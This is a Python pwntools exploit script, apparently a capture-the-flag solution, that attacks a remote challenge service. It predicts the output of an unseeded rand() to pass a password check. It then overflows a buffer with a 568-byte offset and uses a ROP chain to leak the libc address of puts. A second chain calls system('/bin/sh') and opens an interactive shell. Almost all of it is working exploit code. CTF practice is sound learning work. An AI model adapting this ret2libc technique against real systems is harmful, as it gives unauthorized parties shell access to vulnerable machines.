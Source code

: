 ```python
conn = remote("stephencurry.ctfchallenge.ga", 5003)

# rand() is called without srand(), so our seed is 0.
# The password will always be the same
conn.sendline("1804289383")
conn.sendline("42") #some number that isn't 1-5 will trigger the error prompt

conn.recvuntil("to our library.")

# Time to leak a libc address!
payload = b'A'*568 # offset to the overflow var
payload += p64(pop_rdi) # rdi is for the first arg
payload += p64(elf.got['puts']) # first arg is the GOT entry of puts, points to puts in libc
payload += p64(elf.plt['puts']) # calls puts()
payload += p64(elf.symbols['main']) # calls main() after puts is run
conn.sendline(payload) # send this payload

# extra lines
conn.recvline()
conn.recvline()

# recieve our leak, accounting for endianness
puts_libc = int(binascii.hexlify(conn.recvline()[::-1]).replace(b'0a', b'').decode(), 16)

log.info("puts() libc: " + hex(puts_libc))

libc.address = puts_libc - libc.symbols['puts'] # find the libc base
bin_sh = next(libc.search(b"/bin/sh")) # find the address of /bin/sh in libc
system_libc = libc.symbols['system'] # find the address of system() in libc

log.info("libc base: " + hex(libc.address))
log.info("system(): " + hex(system_libc))
log.info("/bin/sh: " + hex(bin_sh))

conn.sendline("846930886") # second random number with seed 0
conn.sendline("42") # bring up the error / asking for feedback
conn.recvuntil("to our library.")

payload = b'A'*568
payload += p64(ret) # stack alignment :(
payload += p64(pop_rdi) # load first arg
payload += p64(bin_sh) # address of /bin/sh in libc
payload += p64(system_libc) # address of system() in libc
conn.sendline(payload)

conn.recvuntil("!")
conn.recvline()

log.info("You should have a shell now... ")
conn.interactive() # WE GET A SHELL!!!!!

```
